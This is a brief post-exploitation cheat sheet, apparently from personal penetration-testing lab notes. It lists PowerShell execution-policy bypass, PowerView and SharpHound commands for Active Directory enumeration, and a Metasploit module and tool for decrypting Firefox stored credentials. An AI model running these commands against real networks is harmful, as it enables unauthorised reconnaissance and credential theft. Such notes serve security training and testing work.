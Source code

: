 # Post Exploitation Basics

> Shahrukh Tramboo | January 8th, 2022

--------------------------------------

**Enumeration with Powerview**

Start Powershell by bypassing the execution policy of powershell allowing you to easily run scripts
```bash
powershell -ep bypass
```

Start Powerview
```bash
. .\Downloads\PowerView.ps1
```


Check this link for all available enumeration commands:
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993


Enumerate the domain users
```bash
Get-NetUser | select cn
```

Enumerate the domain groups
```bash
Get-NetGroup -GroupName *admin*
```

Enumerate the operating systems running on the machine
```bash
Get-NetComputer -fulldata | select operatingsystem
```

Enumerate the shares
```bash
Invoke-ShareFinder
```

**Enumeration with Bloodhound**

```bash
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

-------------------------------------------------------------

**Firefox Stored Credentials**

```bash
use post/multi/gather/firefox_creds
```

Through this GitHub repository, credentials stored by Firefox can be decrypted.

https://github.com/unode/firefox_decrypt

